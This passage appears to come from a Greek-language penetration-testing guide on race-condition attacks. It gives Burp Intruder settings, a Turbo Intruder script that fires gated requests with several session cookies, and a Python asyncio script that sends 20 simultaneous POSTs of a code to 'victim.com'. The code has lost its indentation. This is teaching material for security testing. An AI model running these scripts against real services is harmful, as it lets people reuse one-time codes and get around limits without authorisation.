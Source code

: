 * **Επαναλήπτης:** Ελέγξτε τα παραδείγματα από την προηγούμενη ενότητα.
* **Εισβολέας**: Στείλτε το **αίτημα** στον **Εισβολέα**, ρυθμίστε τον **αριθμό νημάτων** σε **30** μέσα στο **μενού Επιλογών** και, επιλέξτε ως payload **Null payloads** και δημιουργήστε **30.**
* **Turbo Intruder**
```python
def queueRequests(target, wordlists):
engine = RequestEngine(endpoint=target.endpoint,
concurrentConnections=5,
requestsPerConnection=1,
pipeline=False
)
a = ['Session=<session_id_1>','Session=<session_id_2>','Session=<session_id_3>']
for i in range(len(a)):
engine.queue(target.req,a[i], gate='race1')
# open TCP connections and send partial requests
engine.start(timeout=10)
engine.openGate('race1')
engine.complete(timeout=60)

def handleResponse(req, interesting):
table.add(req)
```
* **Python - asyncio**
```python
import asyncio
import httpx

async def use_code(client):
resp = await client.post(f'http://victim.com', cookies={"session": "asdasdasd"}, data={"code": "123123123"})
return resp.text

async def main():
async with httpx.AsyncClient() as client:
tasks = []
for _ in range(20): #20 times
tasks.append(asyncio.ensure_future(use_code(client)))

# Get responses
results = await asyncio.gather(*tasks, return_exceptions=True)

# Print results
for r in results:
print(r)

# Async2sync sleep
await asyncio.sleep(0.5)
print(results)

asyncio.run(main())
```
## **RC Methodology**
